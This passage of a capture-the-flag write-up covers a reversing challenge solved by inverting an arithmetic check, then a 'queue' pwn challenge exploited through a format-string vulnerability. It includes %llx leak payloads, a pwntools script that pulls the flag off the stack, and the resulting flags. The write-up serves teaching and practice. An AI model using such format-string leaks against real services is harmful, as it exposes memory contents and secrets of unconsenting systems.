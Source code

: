 Althought I've never seen earlang code we see that there is a suspicious line where there is an operation made with `num@1` wich I guess is part of the input:

```erlang
    (_num@1 + 5) * 9 - 1 == 971;
```

it will return true only if the operation returns `971` so using my math super skills I reversed the equation and got `103`.
But using `103` as the input on the server doesn't work why?

Looking more closely to the code we see that the check is for `num@1` and `"bananas"`. So maybe my input as to be `103 bananas`...

Yes! That was it, using this input the server returns the flag

🏁 _actf{baaaaannnnananananas_yum}_{: .spoiler}

# Pwn

## queue

> _I just learned about stacks and queues in DSA!_<br>
> _nc challs.actf.co xxxxx_<br>
> _Attachments: queue_

Connecting to the challenge we are asked: `What did you learn in class today?` so we can send a string. We can submit a format string like `%p` to see that it returns `Oh nice, 0x7ffe79e8d120`. We can also access directly some parameters in this way:

`%<number_of_parameter>$<format>` for exemple: `%14$llx,%15$llx,%16$llx`; it returns: 

`Oh nice, 3474737b66746361,75715f74695f6b63,615f74695f657565`.
We can see with some tries that the flag is here in the stack. So we can script the solution.

```python
from Crypto.Util.number import *
from pwn import *

flag = ""
host =  "challs.actf.co"
port = 31322
for i in range (14, 19, 1):
    r = remote(host, port)
    r.recvuntil(b'? ')
    payload = f'%{i}$llx,%{i+1}$llx'
    r.sendline(bytes(payload, 'utf-8'))
    r.recvuntil(b'Oh nice, ')
    stringa = r.recvline()
    stringa = stringa.decode('utf-8')
    stringhe = stringa.split(',')
    temp = ''
    for s in stringhe:
        if len(s)%2 != 0:
            s = '0' + s
        temp += s
    temp = temp.strip()
    temp = temp[:-1]
    flag = flag + str((bytes.fromhex(temp)[::-1])[-8:])
    r.close()
flag = flag.replace('\'b\'', '')
print(flag)
```
If the input string is too long it overwrite the flag in the stack, so we have to take it piece by piece. The code above take 8 chars of the flag at every iteration and put them in the variable flag. At the end we only clean the output.
